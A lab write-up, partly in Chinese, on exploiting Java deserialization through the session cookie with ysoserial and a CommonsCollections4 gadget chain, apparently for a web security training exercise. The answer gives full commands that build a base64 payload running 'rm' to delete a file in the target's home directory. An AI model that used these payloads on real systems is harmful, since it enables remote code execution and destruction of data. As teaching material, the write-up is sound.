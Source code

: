 ##### ysoserial

One such tool for Java deserialization is "ysoserial". This lets you choose one of the provided gadget chains for a library that you think the target application is using, then pass in a command that you want to execute. It then creates an appropriate serialized object based on the selected chain. This still involves a certain amount of trial and error, but it is considerably less labor-intensive than constructing your own gadget chains manually.

##### Note

In Java versions 16 and above, you need to set a series of command-line arguments for Java to run ysoserial. For example:

```
java -jar ysoserial-all.jar \   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \   --add-opens=java.base/java.net=ALL-UNNAMED \   --add-opens=java.base/java.util=ALL-UNNAMED \   [payload] '[command]'
```

### 题目

```
Lab: Exploiting Java deserialization with Apache Commons
PRACTITIONER

This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter
```

### 答案

这题的入口还是 Cookie 里的 sesssion 字段，这里是根据 java 反序列化 来打 cc4 的链子，用到 ysoserial

- In Java versions 16 and above:

  ```
  java -jar ysoserial-all.jar \
     --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
     --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
     --add-opens=java.base/java.net=ALL-UNNAMED \
     --add-opens=java.base/java.util=ALL-UNNAMED \
     CommonsCollections4 'rm /home/carlos/morale.txt' | base64
  ```

- In Java versions 15 and below:

  ```
  java -jar ysoserial-all.jar CommonsCollections4 "rm /home/carlos/morale.txt" > cc4.ser
  cat cc4.ser | base64 -w 0
  ```
